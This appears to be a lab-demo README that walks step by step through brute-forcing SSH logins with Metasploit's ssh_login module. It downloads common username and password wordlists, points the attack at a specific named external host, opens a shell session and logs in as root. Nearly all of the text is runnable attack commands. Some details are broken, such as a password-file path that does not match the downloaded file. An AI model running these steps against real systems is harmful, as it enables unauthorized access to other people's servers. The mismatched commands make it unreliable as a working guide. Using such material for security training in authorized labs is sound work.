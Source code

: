 # Bruteforcing-SSH
========

This is a demo which will exploit SSH on a linux host. Once SSH access is gained, privilege escalation is used to become root. 


Downloading Dictionary Files
------------

First we need some get our hands on some basic text files containing a list of commonly used usernames and passwords. These links are subject to change and for the sake of the lab/demo, these dict files will likely be available from this git repo in the future

Download a list of common users & weak passwords
    
    curl https://download.weakpass.com/wordlists/90/rockyou.txt.gz | gunzip > /tmp/passwords.txt
    curl https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt > /tmp/users.txt

Just so you are familiar, take at the content and format of the files 

    head /tmp/passwords.txt
    head /tmp/users.txt



# Installing Metasploit
------------

Download the latest version of Metasploit Framework (OSS)

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

Set Permissions 

    chmod 755 msfinstall

 Run the install script

    ./msfinstall

By default metasploit framework installs it's self to `/opt/` let's take a look and add that to our path
    
    ls /opt/
    echo $PATH

Add the `/opt/metasploit-framework/bin/` directory to our path


    PATH=/opt/metasploit-framework/bin/:$PATH


Add Metasploit repo to our system and make sure we have the latest version.

    msfupdate



# Using Metasploit
------------

Launch the metasploit framework console

 
    msfconsole


List the available exploits modules for metasploit


    show exploits

Because there are over 2000 modules it may make more sense to search for one we're looking for
 
    search ssh login

For this demo select the auxiliary/scanner/ssh/ssh_login exploit module

    use auxiliary/scanner/ssh/ssh_login


List the options available for this module

    options

Define options for ssh_login module to launch a brute force attack against a target host

    set stop_on_success
    set pass_file /tmp/password.txt
    set user_file /tmp/users.txt
    set threads 10


Define a target
    
    set rhost graffias.openincite.net

Launch the brute force attack

    exploit

if Metasploit successfully authenitcates with a usr/pass provided in our lists you'll see a message 
`[+] 192.168.0.136:22 - Success: 'root:password'`


Not only did metasploit find a combination that successfully authenticates but it also left a session open. List the open sessions

    sessions

To interact with the open session use the sessions command: `sessions -i <session id>`

    sessions -i 1

Now you are connected to a shell on the target. try typing some basic shell commands

    hostname -f
    uname -a

# Enumerating a Host
------------

connect to the target using the discovered credentials

    ssh graffias.openincite.net -l root
